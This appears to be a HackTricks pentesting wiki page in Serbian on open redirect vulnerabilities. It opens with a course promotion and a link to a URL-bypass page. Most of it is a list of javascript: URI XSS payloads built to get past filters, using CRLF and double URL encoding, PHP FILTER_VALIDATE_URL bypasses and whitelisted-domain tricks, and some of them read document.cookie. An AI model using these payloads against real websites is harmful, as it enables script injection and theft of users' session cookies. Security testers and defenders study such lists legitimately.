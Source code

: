 # Open Redirect

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Open redirect

### Preusmeravanje na localhost ili proizvoljne domene

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

### Open Redirect na XSS

```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```
